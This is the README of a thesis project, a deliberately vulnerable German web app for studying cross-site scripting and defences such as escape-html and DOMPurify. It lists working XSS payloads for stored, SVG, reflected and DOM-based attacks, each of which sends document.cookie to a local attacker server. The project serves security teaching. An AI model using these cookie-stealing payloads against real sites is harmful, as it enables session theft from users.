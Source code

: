 # Webanwendung zur Analyse und Prävention von Cross-Site-Scripting (XSS) Angriffen

Diese Webanwendung wurde im Rahmen einer Bachelorarbeit entwickelt, um XSS-Schwachstellen zu identifizieren und effektive Gegenmaßnahmen zu implementieren. Die Anwendung bietet eine Plattform, auf der verschiedene XSS-Angriffsszenarien simuliert und getestet werden können.

## Inhalt
- [Einleitung](#einleitung)
- [Technologie-Stack](#technologie-stack)
- [Installation](#installation)
- [Nutzung](#nutzung)
- [Struktur der Anwendung](#struktur-der-anwendung)
- [Mögliche Attacken](#mögliche-attacken)
- [Anmekrung](#anmerkung)
- [Lizenz](#lizenz)

## Einleitung

Diese Anwendung dient als Demonstrations- und Testumgebung für verschiedene XSS-Angriffe und die dazugehörigen Schutzmaßnahmen. 
Sie wurde entwickelt, um die Sicherheitsanforderungen moderner Webanwendungen zu untersuchen und um praxisnahe Lösungen für XSS-Probleme zu bieten.


## Technologie-Stack

### Backend
- **Node.js**: Laufzeitumgebung für serverseitiges JavaScript
- **Express.js**: Webframework für Node.js zur Erstellung von Webanwendungen und APIs
- **MongoDB**: NoSQL-Datenbank zur Speicherung von Daten
- **Mongoose**: Objekt-Datenmodellierungstool für MongoDB und Node.js

### Frontend
- **HTML**: Strukturierung der Webseite
- **CSS**: Gestaltung der Webseite
- **Bootstrap**: CSS-Framework zur schnellen Gestaltung von responsiven Webanwendungen

## Installation

1. **Repository klonen:**
   ```bash
   git clone https://github.com/Bemast3r/XSS.git
2. **Ordner wechsel**
   ```bash
   cd XSS
3.  **Alles nötige installieren:**
    ```bash
    npm run update
4. **Server starten:**
Der Befehl `npm start` im Root-Ordner startet sowohl den Angreifer-Server als auch den Webanwendungs-Server:
    ```bash
    npm run start
Für das jeweilige Starten der Server kann dies erreicht werden in dem man in den jeweiligen Ordner gewechselt wird.

## Nutzung

Diese Webanwendung bietet die Möglichkeit, zwischen verschiedenen Branches zu wechseln, die unterschiedliche XSS-Gegenmaßnahmen implementieren:

- main Branch: Keine Gegenmaßnahme implementiert. Dieser Branch dient als Ausgangspunkt zur Untersuchung von XSS-Angriffen ohne Schutzmechanismen.
- html-escape Branch: In diesem Branch wird die Bibliothek escape-html verwendet, um Benutzereingaben zu entschärfen und somit XSS-Angriffe zu verhindern.
- DOMPURIFY Branch: Dieser Branch verwendet die Bibliothek DOMPurify, um potenziell gefährliche HTML-Eingaben zu bereinigen und XSS-Angriffe zu verhindern.

## Struktur der Anwendung

- **Attacker**: Beinhaltet den Hacker-Server
- **backend**: Ist der Backend-Server der Webanwendung
- **frontend**: Ist das Frontend und beinhaltet die HTML-Seiten

## Mögliche Attacken

- Stored XSS 
    - Ort: Biografiefeld im User Profile
    - Test-XSS-Payload: 
        - ``<img src="invalid_image.png" onerror="this.src='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);">``

- Stored XSS via SVG
    - Ort: Community.html
    - Vorbereitung:
      Zuerst muss eine SVG-Datei erstellt werden:
    - Test-XSS-SVG-Payload:
        ```html
        <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
            <image xlink:href="x" onerror="javascript:window.location='http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"/>
        </svg>
        ```
    - Anschließend diese Datei über das Uploadfeld hochladen

- Reflected XSS
        - Ort: Search 
    - Test-XSS-Payload: 
        - ``<audio src=1 href=1 onerror="javascript:http://localhost:4000/xss_bild?cookie=' + encodeURIComponent(document.cookie);"></audio>``
- DOM-BASED XSS
        - Ort: EchoInput - Eingabefeld
    - Test-XSS-Payload: 
        - In Browser Suchleiste:    
            - ``http://localhost:3000/Echoinput.html?input=%3Cimg+src%3D+%22keinbild%22onerror%3D%22javascript%3Awindow.location%3D%27http%3A%2F%2Flocalhost%3A4000%2Fxss%3Fcookie%3D%27+%2B+encodeURIComponent%28document.cookie%29%3B%22%3E%3C%2Fimg%3E``

## Anmerkung

Die Payloads sind ebenfalls in der Datei `xss_payload.txt` zu finden. Diese Datei befindet sich im Verzeichnis `Attacker/src/xss_payload.txt`.


### Lizenz
Dieses Projekt ist unter der MIT-Lizenz lizenziert.
